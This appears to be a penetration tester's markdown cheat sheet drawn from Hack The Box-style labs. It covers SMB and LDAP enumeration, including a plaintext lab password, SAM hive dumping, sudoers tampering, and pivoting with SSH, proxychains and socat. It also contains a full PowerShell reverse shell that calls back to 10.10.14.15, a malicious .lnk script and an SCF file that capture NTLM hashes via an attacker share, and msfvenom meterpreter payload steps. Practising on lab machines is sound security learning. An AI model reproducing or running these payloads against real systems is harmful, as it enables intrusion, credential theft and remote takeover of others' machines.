 #### SMB:
  * ```smbclient -N -L //10.10.11.35```
  * ```netexec smb 10.10.11.35 -u 'a' -p '' --shares```
  * ```smbclient -U Guest //10.10.11.35/share```
  * ```netexec smb 10.10.11.35 -u Guest -p '' --rid-brute```
  * ```netexec smb 10.10.11.35 -u username.txt -p 'password123!'```

### LDAP:
  * ```ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'```
  * ```ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'```

#### Powershell:
  * ```Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue```
  * ```Get-Service | Where-Object { $_.Status -eq 'Running' }```

#### CMD:
  * Name and account for all services:
    ```wmic service get name,startname```

  * started services only:
    ```wmic service where started=true get  name, startname```

  * services with specific pattern in name:
    ```wmic service where 'name like "%sql%"' get  name, startname```

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system

#### Subdomain Enumeration:
  * ```ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18```

#### Directory Enumeration
  * ```gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

#### Symlink Techniques:
  * ```ln -s /etc/sudoers /home/john/sudoerss```

#### Manipulating sudoers file:
  * ```vi /etc/sudoers```
    * ```john ALL=(ALL:ALL) NOPASSWD: ALL```
   
#### Hash cracking:
  * john john.hash -w=/usr/share/wordlists/rockyou.txt

#### SSH local port forwarding:
  * Service in running on victim machine 127.0.0.1:8080 and can only be accessed via localhost
    * kali-Attacker$ ssh -L 0.0.0.0:9999:127.0.0.1:PORT john@VICTIM-IP
    * kali-Attacker$ curl -I http://127.0.0.1:9999
   
#### Exploiting Chrome Debugger:
  * https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/

#### Powershell Reverse shell:
```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
#### Capturing Hashes with a Malicious .lnk File
```
# Erstellt ein neues COM-Objekt, das die Windows Shell steuert (ermöglicht die Erstellung von Verknüpfungen, Ausführung von Programmen usw.).
$objShell = New-Object -ComObject WScript.Shell

# Erstellt eine neue Verknüpfung mit dem Namen "legit.lnk" im Verzeichnis "C:\".
$lnk = $objShell.CreateShortcut("C:\legit.lnk")

# Setzt den Zielpfad der Verknüpfung auf einen Netzwerkpfad. Dieser zeigt auf einen entfernten Server (Angreifer-Server),
# der mit einer Datei "@pwn.png" erreichbar ist. Beim Öffnen oder Vorschauen dieser Verknüpfung wird versucht, auf diesen Pfad zuzugreifen,
# was eine Authentifizierungsanforderung (z. B. NTLM-Auth) an den Angreifer-Server auslösen kann.
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"

# Setzt den Stil des Fensters, das beim Ausführen des Ziels erscheint. Der Wert "1" bedeutet, dass das Fenster in normaler Größe geöffnet wird.
$lnk.WindowStyle = 1

# Weist der Verknüpfung ein Symbol aus der Datei "shell32.dll" (eine Datei in Windows, die verschiedene Symbole enthält) zu.
# "3" steht für das Symbol, das aus dieser Datei verwendet wird (meist ein Standardordner-Symbol).
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"

# Setzt eine Beschreibung für die Verknüpfung. Diese Beschreibung wird angezeigt, wenn der Benutzer mit der Maus über die Verknüpfung fährt.
# Hier wird darauf hingewiesen, dass ein Besuch des Verzeichnisses, in dem die Verknüpfung gespeichert ist, eine Authentifizierungsanforderung auslösen kann.
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."

# Weist der Verknüpfung eine Tastenkombination (Strg + Alt + O) zu, mit der der Benutzer die Verknüpfung schnell ausführen kann.
$lnk.HotKey = "Ctrl+Alt+O"

# Speichert die erstellte Verknüpfung (legit.lnk) auf der Festplatte.
$lnk.Save()
```
#### SCF on a File Share
```[Shell]
Command=2
IconFile=\\103.103.143.33\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
#### Pivoting, Tunneling, and Port Forwarding
 #####
 * Dynamic port forwarding
 ```
ssh -D 9050 alreadyCompromisedMachine@10.129.202.64
```
 #####
 * Local port forwarding
```
ssh -L 7000:127.0.0.1:8080 alreadyCompromisedMachine@10.10.11.38
```
 ##### 
 * edit /etc/proxychains.conf
   ```
   socks4 	127.0.0.1 9050
   ```
   ```
    attacker/machine$ proxychains nmap -v -sn 172.16.5.1-200
    attacker/machine$ proxychains nmap -v -Pn -sT 172.16.5.19
    attacker/machine$ proxychains msfconsole
    msf6 >search rdp_scanner
    attacker/machine$ proxychains xfreerdp /v:172.16.5.19 /u:admin /p:pass@123
   ```
 ##### 
 * When SSH is not available use SOCAT
   ```
   Victim IP: 172.16.5.129
   Attacker IP: 10.10.14.18
   victim@compromisedhost:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
   attacker/machine$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set lport 80
   msf6 exploit(multi/handler) > run
   Running the backupscript.exe on victim machine would connect to the attacker machine
   ```
   
#### Linux Ping Sweep:
```for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done```
```for i in $(seq 1 254); do ping -c 1 -W 1 172.16.5.$i &>/dev/null && echo "172.16.5.$i is reachable"; done | grep "bytes from"```

